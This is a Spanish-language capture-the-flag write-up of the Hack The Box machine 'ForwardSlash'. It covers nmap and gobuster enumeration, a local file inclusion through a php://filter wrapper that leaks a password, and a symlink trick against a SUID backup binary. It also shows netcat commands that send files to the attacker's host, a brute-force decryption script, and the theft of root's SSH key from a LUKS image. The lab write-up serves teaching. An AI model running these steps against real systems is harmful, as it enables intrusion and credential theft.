


# FowardSlash

**OS**: Linux \
**Dificultad**: Difícil \
**Puntos**: 40

## Resumen

- Local File Inclusion
- SUID Symbolic link
- LUKS encryption

## Nmap Scan

`nmap -sV -sC -Pn -T3 -sS -p- 10.10.10.183`

```
Nmap scan report for 10.10.10.183
Host is up (0.064s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:3b:eb:54:96:81:1d:da:d7:96:c7:0f:b4:7e:e1:cf (RSA)
|   256 f6:b3:5f:a2:59:e3:1e:57:35:36:c3:fe:5e:3d:1f:66 (ECDSA)
|_  256 1b:de:b8:07:35:e8:18:2c:19:d8:cc:dd:77:9c:f2:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://forwardslash.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Los resultados del escaneo con nmap nos dice que el puerto 80 redirecciona al dominio **forwardslash.htb**. Agregamos ese dominio a nuestro archivo **hosts**.

`sudo nano /etc/hosts`


Utilizando **gobuster** para enumerar directorios y archivos, encontramos **note.txt** que menciona que hay un backup del sitio.

`gobuster dir -u http://forwardslash.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40`


`http://forwardslash.htb/note.txt`


Imaginamos que el sitio se encuentra en un subdominio llamado **backup.forwardslash.htb** el cual agregamos a nuestros **hosts** como lo hicimos anteriormente.

```
10.10.10.183    forwardslash.htb backup.forwardslash.htb
```

Al acceder al nuevo subdominio nos encontramos con un formulario de inicio de sesión.

`http://backup.forwardslash.htb/`



Utilizamos gobuster como lo hicimos anteriormente con la nueva aplicación web. Ninguno de los archivos nos regresa información importante por el momento.

`gobuster dir -u http://backup.forwardslash.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40`


`gobuster dir -u http://backup.forwardslash.htb/dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html`


Nos registramos en la página e iniciamos sesión. La opción más interesante es **Change your Profile Picture** la cual parece estar desactivada pero inspeccionando el código podemos habilitarlo borrando **disabled=""**.

`http://backup.forwardslash.htb/profilepicture.php`


### Local File Inclusion

Podemos realizar un **Local File Inclusion**.

`URL: /etc/passwd`


Leemos los archivos de configuración de apache para saber en que ruta nos encontramos.

`URL: /etc/apache2/sites-enabled/backup.forwardslash.htb.conf`


Podemos ver que nos encontramos en **/var/www/backup.forwardslash.htb/**. Intentando leer el archivo **/dev/index.php** nos arroja un mensaje que dice **Permission Denied; not that way ;)**. Utilizaremos **wrappers** para leer el archivo que nos regresara el contenido en base64.

`URL: php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/dev/index.php`


Copiamos la cadena en base64 y le hacemos decode para obtener el texto plano. Se puede visualizar el password del usuario **chiv**.

`base64 -d index-base.txt`


Nos conectamos por SSH con las credenciales.

`ssh chiv@10.10.10.183`


## Escalada de Privilegios (User)

Revisando los SUID nos encontramos con un binario interesante llamado **/usr/bin/backup**.

`find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`


Enumerando el directorio **/var/backups** vemos un archivo llamada **config.php.bak** que no podemos leer sin ayuda del binario anterior.

`ls -la /var/backups`


Si ejecutamos el binario nos dirá que tenemos que leer el archivo al mismo tiempo que ejecutamos el binario y nos da el tiempo en MD5.

`backup`


Nosotros tomaremos el hash que nos arroje, crearemos un symbolic link del archivo config.php.bak con la cadena del hash, se lo pasaremos al binario para que al momento de que se ejecute el tiempo sea igual y podamos leer el archivo **config.php.bak**.

`hash=$(backup | grep ERROR | cut -d " " -f 2);ln -s /var/backups/config.php.bak $hash;backup;`


Iniciamos sesión con el usuario **pain**.

`su pain`


## Escalada de Privilegios (Root)

Podemos ver que pertenecemos al grupo **backupoperator** y también podemos ejecutar comandos **sudo**, si recordamos en **/var/backups** hay un directorio llamado **recovery** que no se puede acceder si no pertenecemos al grupo anterior. Descargamos los archivos del directorio **encryptorinator** para analizarlos.

```
nc -w 3 10.10.14.251 1234 < encrypter.py
nc -w 3 10.10.14.251 1234 < ciphertext

nc -lvnp 1234 > encrypter.py
nc -lvnp 1234 > ciphertext
```


Podemos ver que nos dan un archivo encriptado y el código con las funciones de **decrypt** y **encrypt**. Agregaremos un parte de código para hacer fuerza bruta de la llave para desencriptar el archivo.

##### encrypter.py
```python
def encrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in key:
        for i in range(len(msg)):
            if i == 0:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[-1])
            else:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[i-1])

            while tmp > 255:
                tmp -= 256
            msg[i] = chr(tmp)
    return ''.join(msg)

def decrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in reversed(key):
        for i in reversed(range(len(msg))):
            if i == 0:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
            else:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
            while tmp < 0:
                tmp += 256
            msg[i] = chr(tmp)
    return ''.join(msg)

encfile = open("ciphertext").read()
wordlist = open('/usr/share/wordlists/rockyou.txt').readlines()

for key in wordlist:
    decfile = decrypt(key, encfile)
    
    if "encryption" in decfile:
        print decfile
        print "key: " + key
        break
```

Obtenemos el texto en plano y un password.


### LUKS

Montamos el archivo **encrypted_backup.img**.

- `sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backups`
- `mkdir mnt`
- `sudo /bin/mount /dev/mapper/backups ./mnt/`
- `cat mnt/id_rsa`
- `sudo /bin/umount ./mnt/`



Obtenemos la llave privada del usuario root. La copiamos, le damos permisos y nos conectamos por el servicio SSH.

- `chmod 400 id_rsa`
- `ssh -i id_rsa root@10.10.10.183`


## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter
